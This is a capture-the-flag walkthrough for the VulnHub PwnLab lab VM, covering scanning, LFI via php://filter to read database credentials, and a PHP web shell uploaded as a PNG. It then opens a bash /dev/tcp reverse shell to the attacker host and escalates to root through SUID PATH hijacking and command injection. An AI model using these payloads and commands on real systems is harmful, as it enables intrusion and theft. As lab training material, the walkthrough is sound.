# PwnLab Walkthrough

## Preparation
1. Download Victim1.ova file ([PwnLab.ova](https://download.vulnhub.com/pwnlab/pwnlab_init.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
      

1. Start the PwnLab virtual machine
    * Turn on the PwnLab virtual machine from the VirtualBox  
      

1. Confirm the IP address of the PwnLab virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.108**: PwnLab Server

1. Set the PwnLab IP address to the environment variance  
    * `export IP=192.168.56.108`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 80 (HTTP Service), 111 (RPCBIND Service), 3360 (MySQL Service), and 40442 ports.  

1. Collect HTTP service information  
    * Use Nikto to collect info  
    * `nikto -h http://192.168.56.108`  
      
        - The page has a "config.php" file  

1. Search accessible files  
    * Use Gobuster  
    * `gobuster dir -u http://192.168.56.108/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt`  
        
        - We can access the "index.php" file  

## Initial Access
1. Access to the config.php  
    * Access from the Web browser  
      
        - Unfortunately, it does not show anything  
    * Use php://filter technique and page the following command in the Web browser   
    * `view-source:http://192.168.56.108/?page=php://filter/convert.base64-encode/resource=config`  
      
        - We can get encoded sourcecode of the config.php  
    * Decode encoded sourcecode  
        - `echo -n PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+ | base64 -d >config.php`  
    * Get the config information  
      

1. Access to the MySQL service  
    * Use the config information  
        
        - username: root  
        - password: H4u%QJ_H99  
    * Access to the Users table  
      
        - "kent", "mike", and "kane" are stored  
    * Decode the all encoded passwords  
      
        - kent: "JWzXuBJJNy"  
        - mike: "SIfdsTEn6I"  
        - kane: "iSv5Ym2GRo"  

1. Login from the login page  
    * Login with kent's password  
      
        - We assume the uploader has vulnerabilities  

## Execution  
1. Upload PHP shell    
    * Access the upload page after login with "kent" username  
    * Take screen shot and save as hoge.png  
    * Burp actions (Initial)  
        - Proxy -> Intercept -> Open brower  
        - Turn on the "Intercept off" button in Burp  
    * Choose the hoge.png file and upload the file  
    * Burp actions (HTTP Request)  
      
        - Edit the HTTP request and click the Forward button  
        - flename: "**evil.png**"  
        - Line22: "**<?php echo system($_GET['cmd']); ?`>**"  

## Credential Access  
1. Modify the HTTP request  
    * Confirm the encoded upload file name from the response  
     
    * Burp actions (Repeater)  
      
        - GET /index.php?cmd=whoami HTTP/1.1  
        - Cookie: PHPSESSID=hdljmqcvpeq1rfal9bcl1u7dt5; lang=../upload/S1ac8d9bc4a4df38c9050ab36af1a17b0.png  
    * Click the Send button and confirm the response  
      
        - It is successfull if "www-data" in the response tab  

1. Seize a reverse shell  
    * Turn on a new terminal  
    * Receive requests with netcat  
    * `nc -lvnp 1234`  
    *  Make an encoded command  
    * `echo "/bin/bash -c 'bash -i > /dev/tcp/192.168.56.101/1234 0<&1 2>&1'" | php -R 'echo urlencode($argn),"\n";'`  
    * Send the HTTP request from Burp Repeater with the encoded command  
      
    * Seesion is established  
        

## Privilege Escalation   
1. Seize a TTY shell  
    * `which python`  
    * `/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'`  

1. Change user to "kane"  
    * `su kane`  
        - Password: "iSv5Ym2GRo"
    * Confirm the "kane" home directory  
      
        - `cd ~`  
        - `pwd`  
        - `ls -la`  
    * "msgmike" file is a SUID file, the owner and the group are "mike"  

1. Investigate the "msgmike" file  
    * `strings msgmike`  
      

1. Prepare shell script to get root shell  
    * Make a "cat" file  
        
    * Add an executable permission to the "cat" file  
      

1. Set environment path for the cat file  
    * `export PATH=/tmp:$PATH`  
      
        - The first priority is changed to the /tmp directory  

1. Execute the "msgmike" file  
    * Execute `./msgmike` from kane's account  
      
        - Displayed the mike's prompt  

1. Find another SUID file  
    * Search the mike's home directory  
      
    * Investigate the "msg2root" file  
    * `strings msg2root`  
      

1. Execute the "msg2root" file  
    * `./msg2root`  
    * `hoge; /bin/bash -p`  
      
        - Get the root shell  

## Credential Access for root user  
1. Open the root flag file  
    * `strings flag.txt`
      
        - Do not use **cat** command to see the flag.txt  